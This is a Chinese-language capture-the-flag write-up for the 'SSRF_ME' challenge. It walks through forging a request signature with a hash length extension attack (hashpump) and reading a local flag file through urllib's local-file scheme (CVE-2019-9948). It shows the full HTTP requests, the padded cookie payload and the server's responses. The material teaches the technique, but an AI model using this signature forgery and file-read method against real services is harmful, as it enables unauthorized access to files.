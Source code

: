 [中文](./README_zh.md) [English](./README.md)

[docker](./docker.zip)

# SSRF_ME 题解

## 预期解法:

哈希长度拓展攻击+CVE-2019-9948(urllib)

---
## 题解:
代码很简单,主要是有根据传入的action参数判断,有两种模式,一种是请求Param参数的地址,并把结果写入`result.txt`,另一种是读取`result.txt`的内容,两种方式都需要`sign`值校验.并且`sign`值是通过拼接参数哈希加密,所以可以使用哈希长度拓展攻击.题目给出了`scan`模式的`sign`值.


1. 获取`scan`模式的`sign`值.
```
GET /geneSign?param=local-file:flag.txt HTTP/1.1
Host: 139.180.128.86



HTTP/1.1 200 OK
Server: nginx/1.15.8
Content-Length: 32
Connection: close

51796b52dd6e1108c89b7d5277d3ae0a
```
2. 使用`hashpump`生成新的`sign`值.
```
$ hashpump
Input Signature: 51796b52dd6e1108c89b7d5277d3ae0a
Input Data: local-file:flag.txtscan
Input Key Length: 16
Input Data to Add: read
eafd6ccd634ec29886babc843f1d8b86                                                                                        
local-file:flag.txtscan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x008\x01\x00\x00\x00\x00\x00\x00read
```
3. 把新生成的参数中`\x`替换成`%`,然后提交,即可获取flag
```
GET /De1ta?param=local-file:flag.txt HTTP/1.1
Host: 139.180.128.86
Cookie:action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%008%01%00%00%00%00%00%00read;sign=eafd6ccd634ec29886babc843f1d8b86
Connection: close




HTTP/1.1 200 OK
Server: nginx/1.15.8
Content-Type: text/html; charset=utf-8
Content-Length: 65
Connection: close

{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}"}
```


## 写在最后:
由于出题时候的粗心,导致题目产生非预期,在这里说一声抱歉.还是太菜了.像各位师傅学习.最后希望大家喜欢本次的比赛.
